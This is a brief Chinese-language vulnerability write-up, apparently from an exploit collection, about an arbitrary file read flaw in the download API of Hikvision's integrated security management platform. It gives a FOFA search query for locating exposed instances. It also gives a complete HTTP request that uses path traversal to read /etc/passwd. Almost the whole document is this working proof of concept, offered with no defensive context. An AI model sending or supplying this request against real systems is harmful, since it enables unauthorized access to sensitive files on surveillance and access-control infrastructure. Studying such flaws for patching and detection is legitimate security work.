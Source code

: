 **fofa**

```
product="HIKVISION-综合安防管理平台"
```

**一、漏洞简述**

海康威视综合安防管理平台涵盖了视频监控、报警系统、门禁系统等众多功能，实现了全方位的安防管理。具体功能有： 视频监控管理、实时视频查看、历史录像调取、 远程监控、报警系统、门禁系统。其接口download存在任意文件读取漏洞，攻击者可通过该漏洞获取操作系统敏感信息。

**二、漏洞检测poc**

```yaml
GET /center/api/task/..;/orgManage/v1/orgs/download?fileName=../../../../../../../etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
```